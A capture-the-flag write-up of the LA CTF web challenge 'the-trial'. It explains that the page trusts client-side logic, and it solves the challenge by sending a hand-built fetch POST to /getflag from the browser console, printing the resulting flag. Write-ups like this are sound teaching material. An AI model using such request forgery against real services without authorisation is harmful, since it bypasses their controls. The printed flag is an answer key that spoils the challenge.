


# **the-trial**

> This write-up documents a deliberately vulnerable lab / CTF-style service.  
> All techniques are presented for educational purposes only.

---

## Overview

- **Category**: web
- **Difficulty**: Easy
- **Key Concepts**: Client-side logic, `fetch` requests, HTTP request manipulation
- **Goal**: Obtain the flag by submitting the correct `word` parameter to the server.

---

## Challenge Description

> I think the main takeaway from Kafka is that bureaucracy is bad? Or maybe it's that we live in a society.



---

## Analysis

### Initial Observation

When opening the challenge webpage, the interface presents:

- A spinning slider input
- A dynamic word displayed on screen
- A **Submit** button that appears difficult to click due to animation

Inspecting the page source reveals the following JavaScript logic:

```javascript
submit.addEventListener("click", async () => {
    const req = await fetch("/getflag", {
        method: "POST",
        body: `word=${encodeURIComponent(disp.textContent)}`,
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        }
    });
```

From this code, we can determine:

- The flag is retrieved from the `/getflag` endpoint.
- The server expects a POST request containing a parameter named `word`.
- The value of `word` is taken from `disp.textContent`.

The displayed word is generated from a slider value using a custom encoding algorithm.

However, the continuously spinning interface makes manual interaction inconvenient.

---

### Root Cause / Weakness
The application relies entirely on **client-side logic** to generate the value of `word`.

There is **no server-side validation** to ensure:

- The value came from the slider.
- The encoding process was followed correctly.
- The request originated from the webpage interface.

Because the server only checks the submitted `word` parameter, an attacker can bypass the UI entirely and send the request manually.

---

## Key Concepts

### 1,Client-Side Trust Issue

Client-side JavaScript should never be trusted for enforcing security logic. Attackers can:

- Modify JavaScript
- Skip UI restrictions
- Send crafted HTTP requests directly

In this challenge, the encoding algorithm exists only in the browser, making it trivial to bypass.

------

### 2,`fetch` and HTTP Request Manipulation

The `fetch` API allows JavaScript to send HTTP requests programmatically. Since browsers allow users to execute JavaScript through the developer console, it is possible to replicate or modify requests without interacting with the UI.

---

## Exploitation / Solution

### Step 1 – Inspect JavaScript Logic

By reviewing the source code, we identify that the flag retrieval request is:

```
POST /getflag
Content-Type: application/x-www-form-urlencoded

word=<generated_value>
```

----

### Step 2 – Bypass the UI

Instead of using the slider and clicking the moving button, we directly send the request using the browser console.

```javascript
fetch("/getflag", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    body: "word=flag"
})
.then(r => r.text())
.then(console.log);
```

------

### Step 3 – Retrieve the Flag



The server responds with:

```
lactf{gregor_samsa_awoke_from_wait_thats_the_wrong_book}
```

-----

## Key Takeaways

- Security logic must never rely solely on client-side code.
- UI restrictions do not prevent attackers from crafting requests manually.
- Understanding HTTP requests is essential in Web exploitation.
- The browser developer console is a powerful tool for analyzing and manipulating web applications.

------

## References

- MDN Web Docs – Fetch API
   <https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API>
- OWASP – Client-Side Security
   https://owasp.org/www-community/attacks/Client-side_Attacks